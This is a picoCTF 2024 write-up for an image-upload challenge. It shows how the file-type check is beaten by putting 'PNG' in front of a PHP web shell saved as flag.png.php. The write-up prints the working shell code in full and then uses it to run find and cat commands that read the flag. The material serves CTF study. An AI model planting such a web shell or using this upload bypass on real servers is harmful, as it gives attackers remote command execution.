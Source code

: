 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#browser_webshell_solvable_<br>

I found a web app that can help process images: PNG images only!

## Solution

At first, I tried uploading a PNG file to see what happens on the website and in Burp Suite.<br>

![image](https://github.com/user-attachments/assets/65d68ea5-46d5-471b-a432-3da81d544cca)
**This is what I got from the website: it says the uploaded file is a valid PNG file. Now it is time to investigate how the system defines a PNG file.*

![image](https://github.com/user-attachments/assets/707cc9a2-1e0d-4cc9-aa22-1205b33da0e3)
**This is the result I got from Burp Suite. From the raw data shown, we can see that the system defines PNG files by checking the first few characters, "PNG".*

Hence, through observation, we can create a PHP script by adding 'PNG' as the first few characters and then insert the script into the system folder. We believe the uploaded files will be stored in the 'uploads' folder, which can be easily accessed through the site. <br>

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
**This is the script that we will use. Insert this php script into a notepad and save as ***flag.png.php***. Then upload this file to the system and we'll get a successful message.*<br>

To get use of the script inserted, we then go to the website to get the file uploaded by adding the uploaded file path ***/uploads/flag.png.php*** to the site ***http://atlas.picoctf.net:60355***. We will use this field to enter a command `find / -name '*.txt'` to list down all the txt file.<br>

![image](https://github.com/user-attachments/assets/1615bc9d-cf02-43e7-8dce-a983f9b04bd9)
**This is the list of all txt files. There is a suspicious file name, which is ***/var/www/html/GAZWIMLEGU2DQ.txt***. So I decided to open it to have a look by inputting the command `cat /var/www/html/GAZWIMLEGU2DQ.txt`.*

![image](https://github.com/user-attachments/assets/710971f2-22f1-41e2-8325-cb6f19784c64)
**Here you got the flag.*
